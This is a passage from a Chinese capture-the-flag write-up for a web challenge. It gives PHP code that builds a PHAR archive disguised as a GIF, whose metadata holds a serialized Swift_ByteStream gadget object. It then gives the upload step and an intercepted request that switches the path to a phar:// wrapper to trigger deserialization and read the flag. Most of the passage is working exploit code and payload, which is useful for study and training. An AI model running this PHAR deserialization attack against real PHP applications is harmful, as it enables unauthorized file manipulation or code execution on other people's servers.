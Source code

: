 ```php
        parent::__construct($filePath, true);
    }
}
unlink("1.phar");
$p = new Phar('./1.phar', 0);
$p->startBuffering();
$p->setStub('GIF89a<?php __HALT_COMPILER(); ?>');
$p->addFromString('1.txt','text');
$obj = new Swift_ByteStream_TemporaryFileByteStream();
$p->setMetadata($obj);
$p->stopBuffering();
```

重命名为`1.gif`上传即可，然后点击`check`，抓包修改其中的参数

![](护网杯-web\4.png)

```
path=phar:///usr/share/nginx/html/storage/app/public&filename=%2F1.gif/1.txt&_token=onbNiZDmpgIkhUu3Uh2z8Xlsg3vlOBfCrJgCVgql
```

就可以看到flag

![](护网杯-web\5.png)



# 总结
